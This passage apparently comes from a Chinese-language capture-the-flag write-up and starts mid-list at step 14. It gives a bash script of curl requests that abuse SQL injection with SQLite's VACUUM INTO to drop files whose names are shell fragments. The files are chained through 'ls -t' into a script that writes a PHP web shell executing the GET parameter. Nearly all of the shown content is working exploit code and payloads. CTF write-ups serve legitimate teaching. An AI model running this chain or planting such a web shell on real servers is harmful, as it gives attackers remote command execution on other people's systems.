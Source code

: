 14. 寫檔 `>a.php`
15. 寫檔 <code>\`$_GET[0]`;'\\</code>
16. 寫檔 `echo '<?=`
17. 瀏覽 `cz.php` 觸發 `sh _` 會將以下內容寫入 `x` 檔案
```bash
echo '<?=
`$_GET[0]`;'\
>a.php
_
ls -t>x
mz.php
mv
cz.php
cz
z.php
z
cp
```
18. 瀏覽 `mz.php` 觸發 `sh x` 會將以下內容寫入 `a.php` 檔案
```php
<?=
`$_GET[0]`;
```

```bash
#!/bin/bash

curl "$1/?msg=$(urlencode "');VACUUM INTO('cp")"
curl "$1/?msg=$(urlencode '<?=`ls>_`;'"');VACUUM INTO('z")"
curl "$1/?msg=$(urlencode '<?=`*`;'"');VACUUM INTO('z.php")"
curl "$1/sandbox/$2/z.php"

curl "$1/?msg=$(urlencode '<?=`sh _`;'"');VACUUM INTO('cz")"
curl "$1/?msg=$(urlencode '<?=`c*`;'"');VACUUM INTO('cz.php")"
curl "$1/sandbox/$2/cz.php"

curl "$1/?msg=$(urlencode "');VACUUM INTO('mv")"
curl "$1/?msg=$(urlencode '<?=`sh x`;'"');VACUUM INTO('mz")"
curl "$1/?msg=$(urlencode '<?=`m*`;'"');VACUUM INTO('mz.php")"
curl "$1/sandbox/$2/mz.php"

curl "$1/?msg=$(urlencode "');VACUUM INTO('ls -t>x")"

curl "$1/sandbox/$2/z.php"

curl "$1/?msg=$(urlencode "');VACUUM INTO('>a.php")"
curl "$1/?msg=$(urlencode "');VACUUM INTO('\`\$_GET[0]\`;''\\")"
curl "$1/?msg=$(urlencode "');VACUUM INTO('echo ''<?=")"

curl "$1/sandbox/$2/cz.php"

curl "$1/sandbox/$2/mz.php"
```
